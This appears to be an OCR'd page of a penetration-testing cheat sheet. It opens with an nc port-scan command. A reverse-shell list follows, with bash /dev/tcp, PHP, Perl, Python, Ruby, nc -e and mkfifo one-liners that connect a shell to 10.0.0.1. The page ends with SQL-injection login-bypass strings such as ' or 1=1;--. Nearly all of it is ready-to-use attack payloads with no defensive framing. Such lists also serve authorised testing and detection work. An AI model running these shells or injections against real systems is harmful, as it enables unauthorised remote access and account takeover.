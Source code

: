 ```
nc -nvv -w 1 -z "Your IP Address" 1-100  
open Wireshark  
```

**2. Reverse shell list**  

```Bash  
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```Php  
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```Perl  
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```Python  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```Ruby  
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```  
1. nc -e /bin/sh 10.0.0.1 1234
(Really like this one)
2. rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 
```

## SQL injection

### Login Bypass

```
' or '1'='1  
' or 1=1;--  
' or 1=1;#  
') or ('x'='x  
' or <column> like '%';--  
' or 1=1 LIMIT 1;--  

USERNAME:   ' or 1/*  
PASSWORD:   */ =1 --  

USERNAME: admin' or 'a'='a  
PASSWORD '#  
```
